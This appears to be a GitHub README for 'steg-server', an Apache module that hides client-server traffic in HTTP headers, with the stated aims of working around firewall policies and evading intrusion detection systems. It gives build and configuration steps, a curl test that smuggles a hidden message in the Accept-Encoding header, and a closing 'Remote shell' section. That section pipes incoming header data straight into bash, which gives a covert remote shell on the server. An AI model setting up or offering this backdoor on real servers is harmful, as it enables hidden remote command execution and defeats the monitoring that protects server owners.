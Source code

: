 steg-server
===========

Description
-----------
This is the server component of the HTTP Steganography project. 

This Apache module is meant to work together with the client component of the HTTP Steganography project to allow hidden client-server communication within the already established web channel, thus removing the need to work around firewall policies and hopefully evading intrusion detection systems. 

Quick Start
-----------
Make sure the 'httpd-devel' package for CentOS/RHEL or the equivalent package for your distro is installed. This package contains the header files and the 'apxs' tool necessary to compile this project.

To compile, just 'cd' into the cloned directory and run:
```
$ apxs -c -i -Iinclude mod_steg.c utils.c packet_builder.c config.c
```

Edit your httpd configuration file, e.g. /etc/httpd/conf/httpd.conf, and add a LoadModule directive:
```
LoadModule steg_module     modules/mod_steg.so
```

Finally, configure the Steg module. These are the module-specific directives:
* **stegInputFile**: Full path to the file where recevied information will be written. Server directive (outside Directory sections).
* **stegOutputFile**: Full path to the file where response information will be read from.  Server directive (outside Directory sections).
* **stegKnockCode**: Code that will be used to recognize a steganogram.
* **stegInputMethod**: Steganography method that will be used for incoming requests. For the first prototype, only Header will be available.
* **stegOutputMethod**: Steganography method that will be used for outgoing requests. For the first prototype, only Header will be available.
* **stegShmLockfile**: Lock file for the shared memory
* **stegShmFile**: Shared memory segment

Keep in mind that this module is implemented as two filters, so you need to use Apache's standard **setInputFilter** and **setOutputFilter** directives.


Example configuration:
```
stegInputFile /var/steg/input
stegOutputFile /var/steg/output
stegShmLockfile /var/steg/lock
stegShmFile /var/steg/shm

<Directory "/var/www/html">
  setInputFilter StegInput
  setOutputFilter StegOutput
  stegKnockCode 098asdf234
  stegInputMethod Header Accept-Encoding
  stegOutputMethod Header X-Powered-by
  #Only for testing, it will prevent normal content from being served:
  SetHandler steg
</Directory>

```

Restart httpd:
```
$ systemctl restart httpd.service
```

Testing
-------
For the first prototype, only the simplest Steganography method is supported, thus a simple curl call will suffice:
```
$ curl -H "Accept-Encoding: gzip, deflate, <hidden message>"
```
For now, the format of the message is:
```
knockcode|length|payload
```

Where **knockcode** is just what you configured in Apache, **length** is a 3 byte field that indicates the length of the payload, and **payload** is any string. Example:
```
knock005hello
```

Remote shell
------------
If the input and output files are piped through bash, you can obtain a remote shell (together with steg-client) that communicates exclusively through the http headers of the normal web requests you make while browsing that server's web content:
```
tail -f /var/steg/input | bash 2>/var/steg/output 1>&2
```







